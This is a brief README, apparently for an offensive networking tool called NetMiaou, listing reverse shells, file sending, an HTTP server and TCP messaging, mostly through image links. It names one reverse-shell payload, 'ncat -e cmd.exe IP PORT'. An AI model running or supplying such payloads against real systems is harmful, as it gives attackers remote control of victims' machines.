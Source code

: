 # **NetMiaou**

***NetMiaou is an hacking tool that can do reverse shells, send files, create an http server or send and receive tcp packet*** 

## **USAGE**
![help image](images/help.png)

## **EXAMPLE**

### simple reverse shell using payload ncat -e cmd.exe IP PORT
**you can use the --show-payloads flag to see all available payloads**
![help image](images/reverseShellExample.png)

### sending files using NetMiaou
![sending files images](images/sendFile.png)

### simple http server
![http server](images/http.png)

### sending text in tcp packets
![sending simple socket](images/tcpMessage.png)